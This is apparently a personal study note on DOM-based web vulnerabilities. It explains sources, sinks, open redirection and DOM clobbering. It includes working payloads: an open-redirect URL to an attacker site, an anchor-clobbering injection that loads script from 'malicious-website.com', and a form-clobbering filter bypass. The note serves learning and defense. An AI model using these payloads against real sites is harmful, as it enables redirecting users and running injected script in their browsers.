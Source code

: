 DOM-Document Object Model

DOM is the heirerichal representation of the elements in a web browser.Website can use Javascript to manipulate the nodes of the nodes of the DOM,infact it's quite common and important in the modern day websites,but the problem arises when the javascript uses unsanitized data(user input which is not processed) to modify the DOM,this can lead to an attacker adding some malicious scripts and the JS passes it into a dangerous function

Before proceeding further with the the DOM based vulnerabilities,we need to first understand the basic terms 

+++++ SOURCE +++++

Source is a JS property that accepts data that is potentially attacker-controlled.An example would be "location.search" which reads the input from the query string.Basically any property that an attacker can control is a source,this includes the referring URL (which is exposed by document.referrer),the cookies exposed by (document.cookies)

+++++        ++++++

+++++ SINK +++++

Sink is a potentially javascript function or DOM object that can cause undesirable effects if the atatcker-controlled data is parsed to it.An example of an HTML sink is document.body.innerHTML because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript

+++++        ++++++


Given an example of a source code


goto = location.hash.slice(1)
if(goto.startsWith('https:')) {
  location = goto;
} 

The most common source is the location object which handles the URL of the object.In the above source code,the location.hash is handled in an unsafe way.If the url contains a # that starts with https:// it sets the value of the location to that value,thus an attacker can use it to divert a user to diiferent page by constructing a payload like.

https://website.com#https://attacker-site.com

what the codes does is that it will extract the value
"https://attacker-site.com"
and assign it to location object,which in turn will redirect the page to that attacker's site.


++++++++++ COMMON SOURCES ++++++++++

 The following are typical sources that can be used to exploit 

document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database 



++++++++++ SINKS THAT CAN BE USED TO EXPLOIT VULNERABILITIES ++++++++++


DOM-based vulnerability 		Example sink
-----------------------     	-------------

DOM XSS LABS 					document.write()
Open redirection LABS 			window.location
Cookie manipulation LABS 		document.cookie
JavaScript injection 			eval()
Document-domain manipulation 	document.domain
WebSocket-URL poisoning 		WebSocket()
Link manipulation 				someElement.src
Web-message manipulation 		postMessage()
Ajax request-header manip. 		setRequestHeader()
Local file-path manipulation 	FileReader.readAsText()
Client-side SQL injection 		ExecuteSql()
HTML5-storage manipulation 		sessionStorage.setItem()
Client-side XPath injection 	document.evaluate()
Client-side JSON injection 		JSON.parse()
DOM-data manipulation 			someElement.setAttribute()
Denial of service 				RegExp() 





++++++++++++++++++++ DOM CLOBBERING ++++++++++++++++++++


DOM clobbering is the type of vulnerability in which an attacker can inject HTML into the page to manipulate the DOM where the XSS is not possible,but the attacker can control some of the tags such as id or name which are whitelisted by the HTML filter.The most common form of DOM clobbering is where the anchor elements are used to over-write the global variable


 A common pattern used by JavaScript developers is:

var someObject = window.someObject || {};

If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor. Consider the following code:

<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>

To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:

<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js> 


another common technique is to use form element with input tag.FOr ex: clobbering attributes tag helps to bypass client side filters

ex:<form onclick=alert(1)><input id=attributes>Click me


n this case, the client-side filter would traverse the DOM and encounter a whitelisted form element. Normally, the filter would loop through the attributes property of the form element and remove any blacklisted attributes. However, because the attributes property has been clobbered with the input element, the filter loops through the input element instead. As the input element has an undefined length, the conditions for the for loop of the filter (for example i"element.attributes.length") are not met, and the filter simply moves on to the next element instead. This results in the onclick event being ignored altogether by the filter, which subsequently allows the alert() function to be called in the browser. 